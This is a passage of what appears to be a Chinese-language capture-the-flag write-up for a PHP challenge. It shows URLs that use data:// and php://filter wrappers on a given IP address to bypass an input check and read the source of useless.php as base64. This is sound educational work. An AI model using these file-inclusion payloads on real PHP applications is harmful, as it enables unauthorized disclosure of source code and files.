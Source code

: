 ![image-20200907111335018](pictures/image-20200907111335018.png)

data://方式：

​	先将“welcome to jxsz“进行base64加密。`d2VsY29tZSB0byBqeHN6`

​	构造url:`http://124.71.149.53:8089/?sz_txt=data://text/plain;base64,d2VsY29tZSB0byBqeHN6&sz_file=&password=`

![image-20200907111750550](pictures/image-20200907111750550.png)

也成功了

**读取useless.php**

由于不能直接访问/flag/，就先看一下注释的文件useless.php，通过sz_file传递。

前面提到php://filter是用来读取源码的，所以可以通过如下方式查看useless.php的源码。

`sz_file=php://filter/read=convert.base64-encode/resource=useless.php`

完整url：

`http://124.71.149.53:8089/?sz_txt=data://text/plain;base64,d2VsY29tZSB0byBqeHN6&sz_file=php://filter/read=convert.base64-encode/resource=useless.php&password=`

![image-20200907132238767](pictures/image-20200907132238767.png)
